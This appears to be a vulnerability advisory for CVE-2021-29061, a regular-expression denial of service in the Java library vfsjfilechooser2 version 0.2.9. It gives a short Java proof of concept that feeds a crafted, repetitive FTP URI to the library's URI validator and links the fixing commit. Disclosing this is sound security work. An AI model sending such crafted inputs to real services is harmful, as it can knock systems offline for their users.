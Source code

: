 # CVE-2021-29061
## Package

vfsjfilechooser2

## Overview

vfsjfilechooser2 is a mavenized fork of the dormant vfsjfilechooser project on sf.net 

Regular Expression Denial of Service (ReDOS) in Vfsjfilechooser2 version 0.2.9.

It allows cause a denial of service when validating crafted invalid uris.

## Proof of Concept



```java
import com.googlecode.vfsjfilechooser2.utils.VFSURIValidator;

public class Main {
    public static void main(String[] args) {
        VFSURIValidator v = new VFSURIValidator();
        String _uri = "ftp://:@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::@::";
        System.out.println(v.isValid(_uri));
    }
}
```

## GitHub Commit

 https://github.com/fracpete/vfsjfilechooser2/commit/9c9f2c317f3de5ece60a3ae28c371e9796e3909b

